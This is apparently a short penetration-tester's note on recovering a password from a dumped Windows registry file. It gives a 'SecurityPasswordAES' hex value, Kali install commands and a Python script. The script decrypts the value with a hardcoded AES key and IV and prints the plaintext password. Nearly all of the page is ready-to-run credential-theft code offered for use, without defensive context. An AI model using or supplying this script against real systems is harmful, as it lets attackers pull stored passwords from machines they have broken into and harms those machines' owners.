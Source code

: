 ```yaml
---
category: Uncategorized
tags: []
---
```

From dumped reg files:

"SecurityPasswordAES"=hex:2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10

Place above value into hex_str_cipher below:

```bash - kali
pip3 install hexdump
```

```bash - kali
pip3 install pycrypto
```

```python - kali
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# Hex Cipher String
hex_str_cipher = "2C0FFF76CA03D7C21C0D3C8B55EDD8DE37F89720AE6ED382D0AD2E70F97EFFEA0B0C1CD901CBD1AD90FC601B9E40FC9C4BAF65EEC51962EB4EDACC7C30A8A66B0CBD9F362AC0CAD1598904AECB8B9610"

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)

```

